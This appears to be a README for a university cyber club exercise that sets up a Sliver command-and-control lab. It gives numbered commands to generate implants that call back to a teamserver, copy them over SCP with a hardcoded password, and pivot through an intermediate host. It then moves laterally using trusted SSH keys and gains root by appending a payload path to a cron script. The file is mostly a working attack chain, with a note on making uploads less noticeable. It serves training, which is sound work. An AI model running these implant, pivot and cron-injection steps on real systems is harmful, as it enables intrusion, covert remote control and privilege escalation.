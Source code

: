 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')
3. Run Implant: `./[Implant Name] &`
4. View sessions: `sessions`
5. Use the Implant: `use [session number]`
6. Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`
7. Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`
8. Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`
9. Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`
10. Navigate to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`
11. Append our file path to one of the cron job scripts in order to privilage escalate: `execute -o /bin/bash -c 'echo "/home/aeverwood/Documents/uhoh" >> /tmp/root_cron_job_1.sh'` The execute command is 'command [arguments]' meaning append doesn't work, so we need to use the -c flag to run it in a /bin/bash shell
